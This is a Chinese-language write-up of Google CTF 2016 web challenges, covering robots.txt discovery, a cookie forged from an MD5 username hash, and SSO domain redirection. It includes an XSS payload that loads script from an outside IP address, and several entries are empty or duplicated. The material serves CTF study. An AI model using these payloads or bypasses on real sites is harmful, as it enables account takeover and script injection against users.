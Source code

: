 # Google CTF 2016 Web

1. Wallowing Wallabies - Part One
    - 题面上可以使用的功能为零，源码里也没有什么切入点。
    - 查看各种套路，发现`robots.txt`
        ```
        User-agent: *
        Disallow: /deep-blue-sea/
        Disallow: /deep-blue-sea/team/
        # Yes, these are alphabet puns :)
        Disallow: /deep-blue-sea/team/characters
        Disallow: /deep-blue-sea/team/paragraphs
        Disallow: /deep-blue-sea/team/lines
        Disallow: /deep-blue-sea/team/runes
        Disallow: /deep-blue-sea/team/vendors
        ```
    - 发现其中`/deep-blue-sea/team/vendors`可以访问，页面内容为：
      > Hello!
      > If you've been directed to this webpage; you have been requested to file out for vendor level access to our system.
      > To request access; please fill out your form, and an admin will review your application as soon as possible.

    - 预计会有XSS漏洞出现，随便点东西提交：
      > Thank you, your request has been received
      > Your message to the admins is as follows:
      > !!! Expecting to find '<script src=' in your input -- please re-read the level challenge.

    - So赤果果的提示，构造playload `<script src="http://104.131.23.191/xss.js"></script>`

    - [Google CTF – Web 1 – Wallowing Wallabies – Part One](http://buer.haus/2016/05/01/google-ctf-web-1-wallowing-wallabies-part-one/)
2. Wallowing Wallabies - Part One
    - XSS

3. Ernst Echidna
    > Can you hack this website? The robots.txt sure looks interesting.

    - 进入页面，提示注册，先查看`robots.txt`：`Disallow: /admin`
    - 访问`/admin`，得到`Sorry, this interface is restricted to administrators only`
    - 查看Cookie：`md5-hash: 912ec803b2ce49e4a541068d495ab570`，为刚才注册用户名的MD5,
    - 直接把Cookie改为admin的MD5`912ec803b2ce49e4a541068d495ab570`，得到flag

4. Dancing Dingoes
    > We're interested in finding out what information is stored on this website. We've already obtained the username "proff" and the password "strobe.c", but can't work out how to access the "admin" user. Any ideas?

    - 采用题目给予的用户名登录
    - 抓包看登录过程，发现有个指向`https://dancing-dingoes.ctfcompetition.com/api/users/login?domain=dancing-dingoes.ctfcompetition.com`的请求
    - 修改其参数进行重放，得到错误：`parsing JSON - invalid character '<' looking for beginning of value`
    - 再改到一个不存在的地址，得到错误`fetching current SSO user information - Get rest/v1/user/current: API error 7 (urlfetch: DNS_ERROR)`
    - 访问其API，获得API格式`{ "UserID": "proff" }`
    - 所以这个登录过程是通过请求一个API来获得UserID，将其指向一个在`rest/v1/user/current`地址下UserID为admin的域名即可。
    - 域名需要通过https访问

5. Wallowing Wallabies - Part Three
6. Purple Wombats
    > We've received a penetration test request for this high-quality site, but we were too busy building a CTF. Can you help us out?

    -
